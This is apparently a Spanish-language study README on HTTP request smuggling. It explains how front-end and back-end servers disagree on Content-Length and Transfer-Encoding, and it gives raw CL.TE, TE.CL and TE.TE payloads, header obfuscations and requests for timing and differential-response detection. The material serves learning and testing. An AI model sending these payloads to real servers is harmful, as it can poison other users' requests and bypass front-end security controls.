


# Repositorio donde escribo/anoto recursos relacionados al hacking

<!-- TOC start -->
- [Web](#web)
  * [HTTP Request Smuggling](#http-request-smuggling)
    + [¿Qué es?](#qué-es)
    + [Tipos de ataques de HTTP Request Smuggling](#tipos-de-ataques-de-http-request-smuggling)
      - [CL.TE](#clte)
      - [TE.CL](#tecl)
      - [TE.TE:](#tete)
    + [Cómo identificarlas](#cómo-identificarlas)
      - [Técnicas de tiempo (delay)](#técnicas-de-tiempo-delay)
        * [CL.TE](#clte-1)
        * [TE.CL](#tecl-1)
      - [Confirmando la vulnerabilidad usando respuestas diferenciales](#confirmando-la-vulnerabilidad-usando-respuestas-diferenciales)
        * [CL.TE](#clte-2)
        * [TE.CL](#tecl-2)
<!-- TOC end -->
<!-- TOC --><a name="web"></a>
# Web

<!-- TOC --><a name="http-request-smuggling"></a>
## HTTP Request Smuggling


<!-- TOC --><a name="qué-es"></a>
### ¿Qué es?

Una técnica para interferir el modo en el que un sitio web procesa secuencias de consultas HTTP

Típicamente cuando el frontend de una aplicación recibe consultas, intenta enviar muchas consultas juntas al backend, ya que esto es mucho más eficiente, esto es posible gracias a los headers de las consultas, que le indican al servidor dónde termina y dónde inicia una consulta, pero para esto deben interpretarlo de la misma manera el frontend y el backend.



Este es el caso "normal", ya que no hay confusiones ni consultas extrañas, pero si un atacante desea confundir a un servidor vulnerable, le puede hacer creer que parte de la consulta es otra nueva, como se muestra en el siguiente diagrama.



Esta vulnerabilidad nace principalmente gracias a 2 headers, que son las dos maneras de indicar dónde termina una consulta: `Content-Length` y `Transfer-Encoding`

`Content-Length` especifica el largo de la consulta con la cantidad de bytes, por ejemplo:

```http
POST /prueba HTTP/1.1
Host: prueba.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

param=value
```

`Transfer-Encoding` (detalles [aquí](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Transfer-Encoding)) es un header que se puede ocupar para especificar que la consulta ocupa chunked-encoding, esto significa que la consulta tiene uno o más chunks de data, cada chunk consiste en el tamaño (bytes) del chunk, seguido de un salto de línea, luego los datos, finalmente la consulta termina cuando encuentra el chunk 0 (vacío, sólo un 0), por ejemplo:

```http
POST /prueba HTTP/1.1
Host: prueba.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b
param=value
0
```

Como la especificación HTTP admite dos formas de indicar el largo de los mensajes, es posible incluir ambos headers, la especificación HTTP intenta arreglar este problema ignorando `Content-Length` si es que los dos están presentes, esto sería suficiente para un solo servidor, pero no necesariamente cuando hay más de un servidor implicado (encadenados), esto se debe a dos principales razones:

* Algunos servidores no soportan `Transfer-Encoding`.

* Algunos servidores que soportan `Transfer-Encoding` pueden ser inducidos a no procesar el header en caso de estar ofuscado de alguna manera.

Entonces cuando los servidores de frontend y backend procesan de maneras diferentes los headers (específicamente `Transfer-Encoding`) es cuando podría ser vulnerable.

<!-- TOC --><a name="tipos-de-ataques-de-http-request-smuggling"></a>
### Tipos de ataques de HTTP Request Smuggling

<!-- TOC --><a name="clte"></a>
#### CL.TE

Es cuando el frontend utiliza `Content-Length` y el backend `Transfer-Encoding`

Ejemplo:

```http
POST / HTTP/1.1
Host: prueba.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

El frontend determina que el cuerpo de la consulta es de 13 bytes, es decir, hasta el final de SMUGGLED, esta consulta es enviada al backend, donde se determina que la consulta termina en el 0, por lo tanto se ve SMUGGLED como el inicio de una nueva consulta totalmente aparte.

<!-- TOC --><a name="tecl"></a>
#### TE.CL

Es cuando el frontend utiliza `Transfer-Encoding` y el backend `Content-Length`.

Ejemplo:

```http
POST / HTTP/1.1
Host: prueba.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

> Nota: es necesario desactivar cualquier automatización de `Content-Length` que se haga, ya que la idea es no poner el largo real.

En este caso el frontend procesa "todo" el cuerpo, pero el backend al procesar `Content-Length` llega hasta antes de SMUGGLED, por lo que desde esa parte en adelante, será procesada en el backend como una nueva consulta.

<!-- TOC --><a name="tete"></a>
#### TE.TE:

Es cuando el frontend utiliza `Transfer-Encoding` y el backend `Transfer-Encoding`, pero alguno de los servidores se puede inducir a no procesar el header, posiblemente por ofuscación.

Algunas posibles ofuscaciones: (también sirve variar mayúsculas o duplicados)

```http
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:    chunked

 Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

<!-- TOC --><a name="cómo-identificarlas"></a>
### Cómo identificarlas

<!-- TOC --><a name="técnicas-de-tiempo-delay"></a>
#### Técnicas de tiempo (delay)

<!-- TOC --><a name="clte-1"></a>
##### CL.TE

Si la aplicación es vulnerable a esta variante, entonces probablemente va a causar un delay esta consulta:

```http
POST / HTTP/1.1
Host: prueba.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```

Ya que el frontend enviaría la consulta sin incluir la X, mientras que el backend esperaría el próximo chunk.

<!-- TOC --><a name="tecl-1"></a>
##### TE.CL

En este caso usaríamos la siguiente consulta:

```http
POST / HTTP/1.1
Host: prueba.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

El frontend mandaría hasta el 0, mientras que el backend esperaría más datos, gracias a `Content-Length`

<!-- TOC --><a name="confirmando-la-vulnerabilidad-usando-respuestas-diferenciales"></a>
#### Confirmando la vulnerabilidad usando respuestas diferenciales

> Nota: como consulta "normal" se usará de ejemplo la siguiente consulta:
> 
> ```http
> POST /prueba HTTP/1.1
> Host: prueba.com
> Content-Type: application/x-www-form-urlencoded
> Content-Length: 11
> 
> q=smuggling
> ```

<!-- TOC --><a name="clte-2"></a>
##### CL.TE

```http
POST /prueba HTTP/1.1
Host: prueba.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

Si el ataque es exitoso, las últimas líneas (a partir de GET /404) serán tratadas por el backend como parte de la siguiente consuta, donde la próxima consulta "normal" que haga alguien quedaría de la siguiente manera:

```http
GET /404 HTTP/1.1
Foo: xPOST /prueba HTTP/1.1
Host: prueba.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

En el caso de que devuelva el 404 (o lo que se espera dependiendo del ataque) se puede confirmar la vulnerabilidad.

> Nota: contrastar que gracias a Foo: x, la consulta es válida, ya que "borra" la parte superior de la siguiente consulta para reemplazarla por el 404.

<!-- TOC --><a name="tecl-2"></a>
##### TE.CL

```http
POST /prueba HTTP/1.1
Host: prueba.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: prueba.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0
```

Esto causará que la próxima consulta normal se vea así:

```http
GET /404 HTTP/1.1
Host: prueba.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 146

x=
0

POST /prueba HTTP/1.1
Host: prueba.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```
